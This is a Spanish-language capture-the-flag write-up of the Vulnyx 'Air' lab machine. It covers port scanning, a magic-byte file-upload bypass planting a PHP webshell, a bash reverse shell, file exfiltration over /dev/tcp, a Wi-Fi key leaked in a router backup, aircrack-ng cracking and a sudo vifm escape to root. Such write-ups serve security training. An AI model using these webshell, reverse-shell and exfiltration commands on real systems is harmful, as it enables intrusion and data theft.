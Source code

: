 ```yaml
---
title: Vulnyx - Air
author: estx
date: 2024-05-04 12:10:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'File Upload', 'Information Leakage', 'Aircrack']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Air/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **File Upload, Information Leakage, Aircrack**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.74	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.74 -oG ports

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80 -sCV 192.168.100.74 -oN versions

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0
```

* Vemos el dominio `air.nyx` el cual añadimos el `/etc/hosts`

```bash
❯ cat /etc/hosts

...
192.168.100.72	air.nyx
```

c. Al visitar el sitio web del puerto **8080**, tenemos un apartado para subir archivos. Si intentamos subir algunos archivos veremos el mensaje 'The file is not a valid image.', pero, si cambios los 'magic numbers' de un archivo **.php** por `GIF8` nos dejará subir una webshell

```php
GIF8

<?php system($_GET['cmd']); ?>
```

![Shell](/assets/images/Vulnyx/Easy/Air/01-shell.png)

d. Hacemos fuzzing para identificar el directorio en el que se suben los archivos

```bash
❯ dirsearch -u 'http://air.nyx:8080/'

<SNIP>
[17:24:03] 403 -  555B  - /uploads/
```

* Ahora podemos ejecutar comandos en la máquina víctima

```bash
❯ curl -s -X GET "http://air.nyx:8080/uploads/shell.php?cmd=whoami"
GIF8

www-data
```

e. Nos entablamos una reverse shell

```bash
❯ curl -s -X GET "http://air.nyx:8080/uploads/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.100.55/4444%200>%261'"
------------------------------------------------------------------------------------
❯ nc -lvnp 4444
www-data@air:~/air/uploads$
```

### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@air:~/air/uploads$ script /dev/null -c bash
www-data@air:~/air/uploads$ ^Z
[1]  + 15681 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 15681 continued  nc -lvnp 4444
                                     reset xterm

www-data@air:~/air/uploads$ export TERM=xterm-256color
www-data@air:~/air/uploads$ source /etc/skel/.bashrc
```

* Listamos los permisos a nivel de sudoers de este usuario

```bash
www-data@air:~/tmp$ sudo -l

User www-data may run the following commands on air:
    (sam) NOPASSWD: /opt/air-repeater
```

* Al ejecutar este binario debemos obtener una contraseña, pero no la tenemos, por lo que buscamos archivos que puedan tener esta contraseña

2. Encontramos el archivo `backup-OpenWrt.tar.gz`

```bash
www-data@air:~/html/files/key/2023_router_backup$ ls
backup-OpenWrt.tar.gz
```

* Transferimos el este archivo a nuestra máquina

```bash
# Máquina Atacante
❯ nc -lvnp 4445 > backup-OpenWrt.tar.gz

# Máquina Air
www-data@air:~/html/files/key/2023_router_backup$ cat < backup-OpenWrt.tar.gz > /dev/tcp/[IP Máquina Atacante]/4445
```

* Descomprimimos el archivos y filtramos por palabras clave

```bash
❯ 7z x backup-OpenWrt.tar.gz
❯ tar -xf backup-OpenWrt.tar
❯ grep -E "key|pass" -r ./
./etc/opkg/keys/2f8b0b98e08306bf:untrusted comment: Public usign key for 21.02 release builds
./etc/profile:export HOME=$(grep -e "^${USER:-root}:" /etc/passwd | cut -d ":" -f 6)
./etc/profile:There is no root password defined on this device!
./etc/profile:Use the "passwd" command to set up a new password
./etc/config/wireless:  option key '42NsWajkZGlz'
./etc/config/luci-opkg: option passwd   "/etc/passwd"
./etc/config/uhttpd:    option key '/etc/uhttpd.key'
./etc/config/uhttpd:    option key_type 'ec'
./etc/config/rpcd:      option password '$p$root'
./etc/config/luci:      option passwd '/etc/passwd'
```

* Encontramos una posible contraseña `42NsWajkZGlz`

3. La usamos en el binario anterior y nos convertirmos en el usuario **sam**

```bash
www-data@air:~/html/files/key/2023_router_backup$ sudo -u sam /opt/air-repeater 
Enter the password: 42NsWajkZGlz
Correct password!
```

* Encontramos el archivo `Air-Master.zip`, lo transferimos a nuestra máquina

```bash
sam@air:/var/backups$ ls -al
-rw-------  1 xiao xiao    492 Nov  8 20:33 Air-Master.zip
```

* Al descomprimirlo solo hay un archivo `Air-Master-01.ivs`

> Los archivo **`.ivs`** contienen vectores de inicialización que son útiles para la generación de los datos cifrados en la red. Estos archivos pueden ser abiertos con `aircrack-ng`
{: .prompt-info }


```bash
aircrack-ng Air-Master-01.ivs -w /usr/share/wordlists/rockyou.txt

                          Aircrack-ng 1.7 

[00:00:01] <SNIP>/10303727 keys tested (6170.16 k/s) 

Time left: 27 minutes, 49 seconds                          0.03%

                    KEY FOUND! [ <SNIP> ]
```

4. Revisamos los permisos a nivel de sudoers de este usuario

```bash
sam@air:/var/backups$ sudo -l
Matching Defaults entries for sam on air:
User sam may run the following commands on air:
    (xiao) NOPASSWD: /usr/bin/vifm
sam@air:/var/backups$ sudo -u xiao /usr/bin/vifm
```

* Se abrirá un editor de texto, escribimos `!/bin/bash` y realizamos un **user pivoting** a `xiao`

5. Por último, la contraseña crackeada con **aircrack-ng**, nos servirá para acceder como root

```bash
xiao@air:~$ su root
Password: 
root@air:/home/xiao # 
```
